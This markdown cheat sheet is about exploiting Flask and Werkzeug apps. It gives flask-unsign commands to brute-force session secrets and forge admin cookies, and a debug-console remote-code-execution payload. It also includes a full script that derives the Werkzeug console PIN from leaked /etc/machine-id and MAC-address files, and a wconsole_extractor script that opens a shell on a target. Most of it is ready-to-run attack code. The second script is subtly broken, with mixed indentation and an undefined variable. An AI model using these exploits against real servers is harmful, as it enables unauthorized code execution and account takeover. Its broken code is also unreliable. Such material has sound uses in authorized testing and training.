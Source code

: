 
# Informations

- Default session's cookie's name : `session`
- Default session's cookie's format : JWT signed with the Flask secret key

# Weak Secret Key

**Bruteforce secret key**
```bash
flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie "JWT_HERE" --no-literal-eval
```

**Craft a new session cookie**
```bash
flask-unsign --sign --cookie "{'admin': 'true', 'username':'guest'}" --secret 's3cre3t'
```

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask

# Debug mode

When debug is on, a `/console` endpoint is listening to execute python code leading to RCE and fun !

**RCE payload**
```python
__import__('os').popen('whoami').read();
```
**Exploit**
- https://github.com/its-arun/Werkzeug-Debug-RCE

### Endpoint is PIN protected

The fact is that the PIN is generated based on some informations that can be leaked : 
- PIN generation source code : https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/__init__.py

To exploit the console PIN, we need two sets of variables, 
- `probably_public_bits` 
	- `username`: Refers to the user who initiated the Flask session.
	- `modname`: Typically designated as `flask.app`.
	- `getattr(app, '__name__', getattr(app.__class__, '__name__'))`: Generally resolved to **Flask**.
	- `getattr(mod, '__file__', None)`: Represents the full path to `app.py` within the Flask directory 
		- (e.g., `/usr/local/lib/python3.5/dist-packages/flask/app.py` but it can change from the python version and the OS system)
		- If `app.py` is not applicable, **try** `app.pyc`

- `private_bits`
	- `uuid.getnode()`: Fetches the MAC address of the current machine, with `str(uuid.getnode())` **translating it into a decimal format**.
		- **leak** `/proc/net/arp` to find the device ID, then **extract the MAC address** from `/sys/class/net/<device id>/address`
	- `get_machine_id()`: Concatenates data from `/etc/machine-id` or `/proc/sys/kernel/random/boot_id` with the first line of `/proc/self/cgroup` post the last slash (`/`).

***Exploit n°1*** : Edit `probably_public_bits` and `private_bits` to generate the Werkzeug PIN
```python
import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```
***Note :*** If you are on an **old version** of Werkzeug, try changing the **hashing algorithm to md5** instead of sha1.

***Exploit n°2*** 

```bash
pip install wconsole_extractor
```

```python
from wconsole_extractor import WConsoleExtractor, info
import requests

def leak_function(filename) -> str:
    r = requests.get(f"http://exemple.com:59085/services?search={filename}")
    if r.status_code == 200:
		    # The return must be the content of the file only, not the full HTML page
		    # Is the file is not found, the returned value should be ""
		    if "File not found" in r.text : 
			    return ""
			else :
	            return content.split("Start of the file")[1].split("End of the file")[0] 
    else:
        return ""

extractor = WConsoleExtractor(
    target="http://exemple.com:8888",
    leak_function=leak_function
)


info(f"PIN CODE: {extractor.pin_code}")
extractor.shell()
```

***wconsole_extractor source code :*** https://github.com/Ruulian/wconsole_extractor
# Resources

- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug


